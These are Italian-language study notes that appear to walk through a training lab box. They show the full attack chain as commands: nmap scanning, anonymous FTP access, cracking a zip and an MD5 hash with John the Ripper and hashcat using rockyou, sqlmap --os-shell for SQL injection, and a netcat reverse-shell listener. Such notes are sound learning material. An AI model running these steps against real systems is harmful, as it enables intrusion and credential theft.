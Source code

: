 <link rel="stylesheet" href="../style.css">

<label style="" for="tema-scuro">Tema scuro
    <input type="checkbox" id="tema-scuro"></input>
</label>

vpn

tmux, splitta il terminale

ping -c2 222.222.222.222

sudo nmap -sV -sC 222.222.222.222, identifica le porte aperte sulla macchina che risponde di un determinato ip:

-   sulla porta 22 solitamente c'è SSH
-   sulla 21 c'è ftp (in casi di "misconfiguration" si può fare un login anonimo e accedere ad alcuni file, per la modalità di debug), tra i cookie c'è un SessionID

    -   versione vsftpd 3.0.3, cercando online gli **exploit** per questa versione
    -   l'accesso anonimo si fa con :
        -   `ftp -v 222.222.222.222`
        -   user: Anonymous
        -   pass: (vuota, tanto non viene verificata per gli utenti anonimi)
        -   poi verifichi la presenza di file disponibili - get backup.zip

#### POC : Proof of Concept

## Funzione ash

### Dominio e codominio

Il dominio è infinito
Il codominio e' limitato

## Come decomprimere archivi compressi con cifratura

I programmi si salvano soltanto l'Ash della password di cifratura

## John the Ripper

È un password cracker
Si può usare

```bash
zip2john file.zip > hash
```

## bisogna avere un file con un set enorme di password

```bash
wc -l ./rockyou.txt #(world count, conta il numero di password)
head -n 30 ./rockyou.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash ## mostra le password trovate
```

Nel file index.php è presente l'hash md5 della password admin

## hashcat

```bash
hashcat -m 0 hash rockyou.txt
```

## hashes.com

passandogli un hash, ti comunica la password corrispondente all'ash

## SQL map

### Cos'è

È un tool per automatizzare gli attacchi di tipo SQL Injection

### Esempio

```bash
sqlmap -u "http://222.222.222.222/dashboad.php?search=any+queery" --cookie="PHPSESSIONID=..." # Passando il cookie php della sessione del browser una volta fatto l'accesso

## quando sei sicuro che è iniettabile

sqlmap -u "http://222.222.222.222/dashboad.php?search=any+queery" --cookie="PHPSESSIONID=..." --os-shell
```

Una volta entrato come utente postgress, verificare:

```bash
whoami
# utente postgress

ifconfig # verificare l'ip
# 222.222.222.222

nc -nvlp 8888
```

## Cos'è john the ripper

## Cos'è hashcat

## Cos'è sqlmap

## Cos'è sqlinjection

```bash
john --wordlist=wordlist.txt hashfile.txt
```
```bash
hashcat -m 0 -a 0 hash.txt wordlist.txt
```

```fish
echo -n "password" | md5sum
```
```fish
echo -n "password" | sha256sum
```
